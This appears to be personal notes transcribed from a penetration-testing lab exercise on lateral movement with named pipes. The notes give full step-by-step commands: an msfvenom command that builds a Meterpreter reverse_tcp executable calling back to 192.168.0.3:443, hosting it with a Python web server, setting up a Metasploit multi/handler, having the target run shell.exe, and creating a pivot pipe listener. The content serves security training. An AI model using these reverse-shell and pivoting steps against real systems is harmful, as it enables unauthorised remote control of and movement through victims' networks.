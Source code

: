 Cheat Sheet for MSFVENOM-- 

.. loading ...


1.  Lateral movement with Named Pipes

Lateral movement is performed after exploiting a system. You, as the attacker, then look at the possibility of finding other systems or devices that can be exploited. After you have found vulnerabilities on other hosts, you can move from the existing host to the new hosts. The attackers typically target the remote services that can be exploited for lateral movement. In the command line, you can use services, such as telnet, rlogin, and SSH. In the GUI environment, depending on the type of platforms, such as Windows or Apple, you can use Remote Desktop Protocol (RDP), VNC, or Apple Remote Desktop (ARD).

You can also perform lateral movement using a named pipe.

A named pipe is a method that is used by two applications or programs to communicate with each other. The named pipe communication is encapsulated within the SMB protocol. After you gain access to a system within a network, the named pipes can be used for lateral movement in a stealthy manner.

In this task, you will learn to perform the lateral movement with named pipes. To do this, perform the following steps:
In this exercise, you will learn about exploiting discovered vulnerabilities.

''
1. You will first create a Meterpreter agent using Msfvenom. You can th   en use Metasploit to use named pipes for controlling agents.

> Type the following command:

$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.3 lport=443 -f exe > shell.exe

> Press Enter

2. Next, you need to ensure that this file is available to the target system. You can start the SimpleHTTPServer, which will make the file available. To do this, type the following command:

> python -m SimpleHTTPServer 8000

> press enter

3. Now you need to create a Metasploit handler to accept the connection back to your system. To do this, you need to open the Metasploit Frame work.

''

 Minimize the terminal window and on the desktop, double click the meta sploit framework icon.

''

4. You will now use the multi-handler exploit. To do this, type the fol   lowing command:

> use exploit/multi/handler

> Press Enter

5. Set the reverse_tcp as the payload. To do this, type the following c   ommand:

> set PAYLOAD windows/meterpreter/reverse_tcp

> press enter

6. Now set the local host for reverse_tcp. To do this, type the following command:

> set LHOST 192.168.0.3

> press enter

7. Set the port on which you will accept the connections. To do this, type the following command:

> set LPORT 443

> press enter

8. you can set if the listener should close on the exit of the session.   
Type the following command:

> set ExitOnSession false

> press enter


8. now the exploit. Type the following command:

> exploit -j -z

> Press Enter.

9. The reverse_tcp handler has now started.


================ SWITCH ===================
> You should be leaving the kali box and connecting to PLABWIN810.

1. Click the Internet Explorer icon on the taskbar.

> The internet Explorer window is displayed. In the address bar, type t  he following command:


> http://192.168.0.3:8000

> press enter

> Notice that the shell.exe is listed in the file listing. Click shell.  exe.

2. In the notification bar, click Run. 

> you are back on the file listing.

 ============= SWITCH ==================

 you should be leaving PLABWIN810 for PLABKALI01

=========================================

... loading .. 


 with the start of the reverse_tcp session showing:

1. press enter and type the following command.

> sessions

> press enter

> notice that a session is established with the target system.

2. youu need to now switch to session 1. To do this, type the following command:

> sessions -i 1  ////(thats a one. not sure if ive been up too long or                  if my eyes are turely going bad. if my next entry is a                 bit "bumpy" and only legible without gloves on. then..                 we might be in trouble.)
> press enter

> The meterpreter command is displayed.

> Press Ctrl + l to clear the screen.



3. You need to create a pipe listener now. Type the following command:
   pivot add -t pipe -l 192.168.0.3 -n bgpipe -a x86 -p windows

> Press Enter

4. now you can list the active pipe listeners by typing:

> pivot list

> press enter

> notice that there is one active pipe listener.

